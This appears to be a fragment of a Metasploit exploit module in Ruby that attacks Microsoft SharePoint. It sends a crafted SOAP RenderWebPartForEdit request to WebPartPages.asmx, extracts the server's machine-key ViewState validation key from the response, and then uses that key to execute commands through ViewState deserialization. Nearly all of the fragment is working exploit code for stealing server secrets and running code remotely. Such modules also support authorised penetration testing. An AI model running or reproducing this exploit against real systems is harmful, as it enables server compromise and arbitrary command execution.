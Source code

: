         envelope = '<?xml version="1.0" encoding="utf-8"?>'
        envelope << Nokogiri::XML(<<-ENVELOPE, nil, nil, Nokogiri::XML::ParseOptions::NOBLANKS).root.to_xml(indent: 0, save_with: 0)
          <soap12:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap12="http://www.w3.org/2003/05/soap-envelope">
            <soap12:Body>
              <RenderWebPartForEdit ns="http://microsoft.com/sharepoint/webpartpages">
                <webPartXml>#{webpart.encode(xml: :text)}</webPartXml>
              </RenderWebPartForEdit>
            </soap12:Body>
          </soap12:Envelope>
        ENVELOPE

        res = send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, '_vti_bin', 'WebPartPages.asmx'),
          'cookie' => cookie,
          'ctype' => 'application/soap+xml; charset=utf-8',
          'data' => envelope
        )

        unless res
          fail_with(Failure::Unreachable, "Target did not respond to #{__method__}")
        end

        unless res.code == 200
          fail_with(Failure::NotFound, "Failed to retrieve #{normalize_uri(target_uri.path, '_vti_bin', 'WebPartPages.asmx')}")
        end

        xml_response = res.get_xml_document
        if xml_response.nil?
          fail_with(Failure::NotFound, 'Failed to extract the ViewState validation key (non-XML response body)')
        end

        xml_result = xml_response.xpath('//wpp:RenderWebPartForEditResult', XML_NS)&.text
        unless xml_result
          fail_with(Failure::NotFound, 'Failed to extract the ViewState validation key (missing xpath: //wpp:RenderWebPartForEditResult)')
        end

        xml_result = Nokogiri::XML(xml_result)
        web_part_pages = Nokogiri::XML(xml_result.xpath('//Properties').text)
        unless web_part_pages&.root
          fail_with(Failure::NotFound, 'Failed to extract the ViewState validation key (missing xpath: //Properties)')
        end

        unless (preview = web_part_pages.root.attr('__designer:Preview'))
          fail_with(Failure::NotFound, 'Failed to extract the ViewState validation key (missing attribute: __desiginer:Preview)')
        end
        preview = Nokogiri::HTML(CGI.unescapeHTML(preview))
        unless (@validation_key = preview.at('//machinekey/@validationkey')&.text)
          fail_with(Failure::NotFound, 'Failed to extract the ViewState validation key (missing xpath: //machinekey/@validationkey)')
        end

        print_good("ViewState validation key: #{@validation_key}")
      end

      def execute_command(cmd, _opts = {})
        sharepoint_execute_command_via_viewstate(cmd, @validation_key, { 'cookie' => cookie })
      end
    end